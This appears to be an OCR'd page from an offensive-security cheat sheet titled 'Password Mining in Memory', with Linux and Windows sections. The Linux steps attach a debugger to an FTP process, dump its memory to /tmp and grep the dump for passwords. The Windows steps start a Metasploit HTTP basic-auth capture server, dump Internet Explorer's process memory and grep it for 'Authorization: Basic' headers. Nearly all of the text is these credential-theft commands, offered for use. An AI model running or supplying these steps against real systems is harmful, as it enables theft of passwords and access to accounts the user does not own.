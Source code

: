 <a name="password-mining-in-memory"></a>
# Password Mining in Memory

Domain: No

Local Admin: Yes

OS: Linux

Type: Enumeration & Hunt

Methods:

3.  ps -ef \| grep ftp;

4.  gdp -p ftp_id

5.  info proc mappings

6.  q

7.  dump memory /tmp/mem \[start\] \[end\]

8.  q

9.  strings /tmp/mem \| grep passw

<a name="password-mining-in-memory-1"></a>
# Password Mining in Memory

Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

In Metasploit (msf \> prompt) type: use
auxiliary/server/capture/http_basic

In Metasploit (msf \> prompt) type: set uripath x

In Metasploit (msf \> prompt) type: run

2\.

In taskmgr and right-click on the "iexplore.exe" in the "Image Name"
column

and select "Create Dump File" from the popup menu.

3\.

strings /root/Desktop/iexplore.DMP \| grep \"Authorization: Basic\"
